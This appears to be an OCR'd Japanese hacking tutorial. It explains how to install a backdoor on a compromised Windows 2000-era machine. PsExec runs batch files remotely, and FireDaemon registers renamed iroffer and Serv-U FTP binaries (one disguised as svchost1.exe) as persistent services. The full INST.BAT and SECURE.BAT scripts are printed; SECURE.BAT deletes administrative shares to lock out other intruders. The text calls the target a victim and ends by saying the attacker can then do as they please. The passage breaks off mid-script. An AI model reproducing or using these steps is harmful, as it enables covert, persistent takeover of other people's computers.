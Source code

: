 　これらのファイルを全てアップします。
　あと、iroffer.exeとServuDaemon.exeはリネームしたほうがいいです。

●SECURE.BAT

　このバッチファイルはただIPC $ と C$ thourgh Z$ share を削除するだけです。
Windowsが再開されるまで、これはコンピュータに効果を与えるでしょう。これら
のシェアリングを取り去る理由は、他人にそれと同じことをさせないためにです。

●INST.BAT

　ファイルをあらかじめ仕込んだ後で、firedaemonへコマンドを渡す時に使われ
ます。

●FIREDAEMON（http://www.firedaemon.com/）

　Firedaemonはサービスとしてプログラムをインストールします。そして、マシ
ンが再起動する次のとき、プログラムが開始されることを保証するでしょう。at
tackerは犠牲者のコンピュータ上にバックドアをインストールすることができま
す。Firedaemonは犠牲者マシンにプログラムをシステムサービスとしてインスト
ールします。

●PSEXEC（http://www.sysinternals.com/ntw2k/freeware/psexec.shtml/）

　次に、仕込んだバッチファイルを実行させます。
　psexecを実行して、そしてそれにインストールバッチファイルをリモートのコ
ンピュータ上で、走らせるように命令させます。

psexec \\xxx.xxx.xxx.xxx C:\WINNT\SYTEM32\INST.BAT
psexec -u "Username" \\xxx.xxx.xxx.xxx c:\WINNT\SYTEM32\SECURE.BAT

　このようにしてコマンドを入力してください。
　あとはやりたい放題です。


### 0x03 INST.BATとSECURE.BAT

```BAT
{
   @echo off
   SET MXHOME=c:\winnt\system32
   SET MXBIN=c:\winnt\system32
   c:\winnt\system32\firedaemon -i iroff "c:\winnt\system32" 
"c:\winnt\system32\iroffer.exe" "xdcc.config" Y 0 0 0 Y
   c:\winnt\system32\firedaemon -i servu "c:\winnt\system32" 
"c:\winnt\system32\svchost1.exe" "" Y 0 0 0 Y
   c:\winnt\system32\firedaemon -i secur "c:\winnt\system32" 
"c:\winnt\system32\secur.exe" "" Y 0 0 0 Y
   net start iroff
   net start servu
   net start secur
}
```

```BAT
{
   @echo off
   net share /delete C$ /y >> net.deld
   net share /delete D$ /y >> net.deld
   net share /delete E$ /y >> net.deld
   net share /delete F$ /y >> net.deld
   net share /delete G$ /y >> net.deld
   net share /delete H$ /y >> net.deld
   net share /delete I$ /y >> net.deld
   net share /delete J$ /y >> net.deld
   net share /delete K$ /y >> net.deld
   net share /delete L$ /y >> net.deld
   net share /delete N$ /y >> net.deld
   net share /delete O$ /y >> net.deld
   net share /delete P$ /y >> net.deld
```